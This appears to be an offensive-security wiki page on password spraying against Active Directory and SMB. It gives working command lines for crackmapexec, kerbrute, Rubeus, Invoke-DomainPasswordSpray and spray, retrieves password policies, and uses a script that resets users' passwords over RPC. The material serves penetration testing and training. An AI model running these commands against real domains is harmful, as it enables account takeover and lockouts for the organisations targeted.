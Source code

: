 # Password Spraying

## **Password Spraying**

Once you have found several **valid usernames** you can try the most **common passwords** \(keep in mind the password policy of the environment\) with each of the discovered users.  
By **default** the **minimum** **password** **length** is **7**.

Lists of common usernames could also be useful: [https://github.com/insidetrust/statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)

Notice that you **could lockout some accounts if you try several wrong passwords** \(by default more than 10\).

### Get password policy

If you have some user credentials or a shell as a domain user you can get the password policy with:

* `crackmapexec <IP> -u 'user' -p 'password' --pass-pol`
* `enum4linx -u 'username' -p 'password' -P <IP>`
* `(Get-DomainPolicy)."System Access" #From powerview`

### Exploitation

Using [RPCUserInfoSprayer.sh](https://github.com/m3ll-0/ExploitScripts/blob/master/SMB/RPCUserInfoSprayer.sh):

```bash
RPCUserInfoSprayer.sh <target> <userfile> <new_password> <auth_username> <auth_password>
```

```bash
RPCUserInfoSprayer.sh $target /tmp/testusers HelloWorld1 support '#00^BlackKnight'
```

This tries to change the user passwords using RPCClient, this won't likely lock out the accounts \(not confirmed\). For more information read: [https://malicious.link/post/2017/reset-ad-user-password-with-linux/](https://malicious.link/post/2017/reset-ad-user-password-with-linux/)

Using **crackmapexec:**

```bash
crackmapexec smb <IP> -u users.txt -p passwords.txt
```

Using [kerbrute](https://github.com/TarlogicSecurity/kerbrute)\(python\) - NOT RECOMMENDED SOMETIMES DOESN'T WORK

```bash
python kerbrute.py -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
python kerbrute.py -domain jurassic.park -users users.txt -password Password123 -outputfile jurassic_passwords.txt
```

**Kerbrute** also tells if a username is valid.

Using [kerbrute](https://github.com/ropnop/kerbrute)\(Go\)

```bash
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman
```

With [Rubeus](https://github.com/Zer1t0/Rubeus) version with brute module:

```bash
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```

With the `scanner/smb/smb_login` module of Metasploit:

![](../../.gitbook/assets/image%20%28234%29.png)

With [Invoke-DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)

```bash
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```

or **spray** \(read next section\).

### Lockout check

The best way is not to try with more than 5/7 passwords per account.

So you have to be very careful with password spraying because you could lockout accounts. To brute force taking this into mind, you can use _**spray:**_

```bash
apt-get install spray
spray -smb <targetIP> <usernameList> <passwordList> <AttemptsPerLockoutPeriod> <LockoutPe
```

\*\*\*\*[**More information and rudimentary password spray techniques in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-password-spraying)\*\*\*\*

